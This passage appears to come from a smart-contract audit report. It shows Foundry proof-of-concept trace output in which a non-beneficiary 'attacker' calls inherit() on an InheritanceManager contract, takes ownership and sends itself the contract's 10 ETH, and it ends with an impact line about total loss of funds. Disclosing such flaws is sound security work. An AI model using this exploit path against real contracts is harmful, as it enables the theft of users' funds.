 POC Test Outcome : 

```Solidity
Ran 1 test for test/InheritanceManagerTest.t.sol:InheritanceManagerTest
[PASS] test_inheritVulnerabilityByNonBeneficiary() (gas: 127823)
Traces:
  [127823] InheritanceManagerTest::test_inheritVulnerabilityByNonBeneficiary()
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]
    ├─ [0] VM::label(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], "attacker")
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [69020] InheritanceManager::addBeneficiery(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Stop] 
    ├─ [0] VM::deal(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(7862401 [7.862e6])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← [Return] 
    ├─ [3672] InheritanceManager::inherit()
    │   └─ ← [Stop] 
    ├─ [35478] InheritanceManager::sendETH(10000000000000000000 [1e19], attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   ├─ [0] attacker::fallback{value: 10000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [419] InheritanceManager::getOwner() [staticcall]
    │   └─ ← [Return] attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]
    ├─ [0] VM::assertEq(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(10000000000000000000 [1e19], 10000000000000000000 [1e19]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 16.07ms (9.29ms CPU time)

```

## Impact

* Complete loss of contract funds (ETH, ERC20 tokens, NFTs)
